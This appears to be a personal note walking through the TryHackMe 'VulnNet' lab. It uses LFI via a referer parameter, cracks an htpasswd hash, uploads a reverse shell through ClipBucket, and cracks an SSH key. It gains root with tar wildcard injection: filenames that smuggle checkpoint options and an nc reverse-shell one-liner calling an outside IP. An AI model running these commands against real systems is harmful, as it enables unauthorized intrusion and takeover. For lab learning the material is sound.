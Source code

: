 
2025-01-30 22:44

Source: #Boot2root

After adding the IP to `/etc/hosts`, we do some directory busting which leads us nowhere so we [[crawling a website]] to find links 

Checking the source code of the main page reveals 2 JavaScript imports at the end of the code
- The analysis of the first script will reveal the following subdomain - `http://broadcast.vulnnet.thm`
- The second script reveals that `index.php` accepts a `referer` parameter - `http://vulnnet.thm/index.php?referer=`
#### LFI 

Browsing this new subdomain prompts for a basic authentication, which is a dead end at this stage. Let’s check the other information.

Injecting `/etc/password` as `referer` confirms that the page suffers from a Local File Inclusion ([[LFI]])
```sh
curl -s http://vulnnet.thm/?referer=/etc/passwd
```

Let’s check in the Apache configuration files 
```sh
curl -s http://vulnnet.thm/?referer=/etc/apache2/sites-enabled/000-default.conf
```

from the above command we get to know that the password file is located in  `/etc/apache2/.htpasswd`
```
developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
```

the username is developers and the `md5crypt` hash is to the right
use john to crack the hash 
```sh
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
### Revshell

- on accessing the website `broadcast.vulnnet.thm` we see that it uses `clipbucket 4.0`
- This version has a exploit available on `searchsploit`, we can upload a file without authentication
Follow the instructions in the exploit and upload a php [[revshell]]

Open a listener (`nc -nlvp 4444`) and browse the uploaded shell `http://developers:9972761drmfsls@broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/1620367741f6065c.php`.
### Lateral movement

- Lateral movement from www-data > server-management
Checking the `/home` folder, as well as the `/etc/passwd` file will confirm the existence of a `server-management` user.

Let’s check what files are owned by this user [[Find]]
```
find / -type f -user server-management -exec ls -l {} + 2>/dev/null
```

this user owns a zip file in the `/var/backup` directory, copy the file to your machine
```
cp /var/backup/ssh-backup.tar.gz /tmp
cd /tmp
tar xvf ssh-backup.tar.gz
```

convert the file to something that [[john]] will understand 
```
python /usr/share/john/ssh2john.py id_rsa > ssh.hash
```

then crack the hash using john

## [[Privilege Escalation]] Cronjon with wildcard

after gettting the hash [[SSH (22 port)]] as the user 
```sh
ssh -i id_rsa server-management@vulnnet.thm
```

There is a [[cronjob]] (`/var/opt/backupsrv.sh`) run by `root` every 2 minutes
We don’t have write access to the script.

The script is backing up our `Documents` folder using `tar` to compress the archive.

Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) what we can do with `tar` confirms that we can exploit it by creating 2 files which names will be interpreted as options passed to the `tar` command.

```sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.50.72 4444 >/tmp/f" > /home/server-management/Documents/rev.sh

touch "/home/server-management/Documents/--checkpoint=1"

touch "/home/server-management/Documents/--checkpoint-action=exec=sh rev.sh"
```

start a listener then wait for the cronjob to run.

### References
[TryHackMe | VulnNet](https://tryhackme.com/r/room/vulnnet1)

walktrough
[TryHackMe-VulnNet - aldeid](https://www.aldeid.com/wiki/TryHackMe-VulnNet)
[VulnNet Tryhackme Writeup. By Shamsher khan This is a Writeup of… | by Shamsher khan | InfoSec Write-ups](https://infosecwriteups.com/vulnnet-tryhackme-writeup-3a5bd68b0959)
[TryHackMe — Vulnnet WriteUp/Walkthrough | by Arnav singh | Medium](https://medium.com/@arnavsinghinfosec/tryhackme-vulnnet-writeup-walkthrough-3b7846b24416)